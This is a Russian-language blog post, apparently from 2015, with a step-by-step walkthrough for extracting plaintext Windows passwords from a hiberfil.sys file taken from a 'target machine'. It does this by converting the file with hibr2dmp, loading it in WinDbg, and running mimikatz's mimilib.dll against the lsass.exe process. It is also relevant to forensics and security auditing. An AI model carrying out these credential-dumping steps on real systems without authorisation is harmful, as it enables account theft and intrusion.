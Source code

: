 ```yaml
---
title: "Восстановливаем локальные и доменные пароли из hiberfil.sys"
date: 2015-02-16
---
```


Утилита [mimikatz](http://blog.gentilkiwi.com/mimikatz), позволяющая извлекать учётные данные Windows из LSA в открытом виде, существует с 2012 года, однако помимо [хорошо освещённого](http://www.securitylab.ru/news/420431.php) функционала восстановления паролей из памяти работающей ОС у неё есть ещё одна довольно интересная возможность. Далее я приведу пошаговую инструкцию, как при помощи нехитрых действий извлечь учётные данные из файла hiberfil.sys.  
  


###  **Подготовка**

  
Для осуществления задуманного нам понадобятся следующие утилиты:  


  * [Debugging Tools for Windows](https://msdn.microsoft.com/en-us/library/windows/hardware/ff551063\(v=vs.85\).aspx)
  * [Windows Memory toolkit](http://www.moonsols.com/windows-memory-toolkit/) free edition
  * И, собственно, сам [mimikatz](https://github.com/gentilkiwi/mimikatz/releases/latest)



###  **Действия**

  


1\. Получаем файл hiberfil.sys с целевой машины.

  


2\. Конвертируем файл в формат понятный WinDbg

  


**hibr2dmp.exe d:\temp\hiberfil.sys c:\temp\hiberfil.dmp**

**  
**

Процесс может занять довольно продолжительное время

  


[![](/images/1.jpg)](/images/1.jpg)

  


3\. Запускаем WinDbg и открываем полученный файл 

  


**File  -**> **Open Crash Dump**

  


4\. Настраиваем отладочные символы

  


Открываем **File  ****-** >** ****Symbol File Path… **и вписываем следующую строчку

  


**SRV*c:\symbols*http://msdl.microsoft.com/download/symbols**

**  
**

Вместо c:\symbols, естественно, может быть любой каталог, в который будут загружены символы 

  


[![](/images/2.png)](/images/2.png)

  


В командной строке дебаггера пишем

  


0: kd> **.reload /n**

**  
**

Ждём окончания загрузки символов

  


[![](/images/1.png)](/images/1.png)

  


5\. Указываем путь к библиотеке mimilib.dll (находится в каталоге с mimikatz)

  


0: kd> **.load z:\Soft\Security\Passwords\Mimikatz\x64\mimilib.dll**

**  
**

[![](/images/1.png)](/images/1.png)

  


6\. Находим адрес процесса lsass.exe

  


0: kd> **!process 0 0 lsass.exe**

**  
**

[![](/images/1.png)](/images/1.png)

  


В данном случае адрес: fffffa800a7d9060

  


7\. Переключаем контекст процесса

  


0: kd> **.process /r /p fffffa800a7d9060**

**  
**

[![](/images/1.png)](/images/1.png)

  


8\. Запускаем mimikatz и получаем пароли в открытом виде

  


0:kd>** !mimikatz**

**  
**

[![](/images/1.png)](/images/1.png)

**  
**

**  
**

**  
**

###  **Ссылки по теме**

**  
**

Раскрытие учетных данных в Microsoft Windows: **<http://www.securitylab.ru/vulnerability/420418.php>**

LSA Authentication: <https://msdn.microsoft.com/en-us/library/windows/desktop/aa378326(v=vs.85).aspx>  
What is Digest Authentication:**<https://technet.microsoft.com/en-us/library/cc778868(WS.10).aspx>**

  


**  
**

  


  

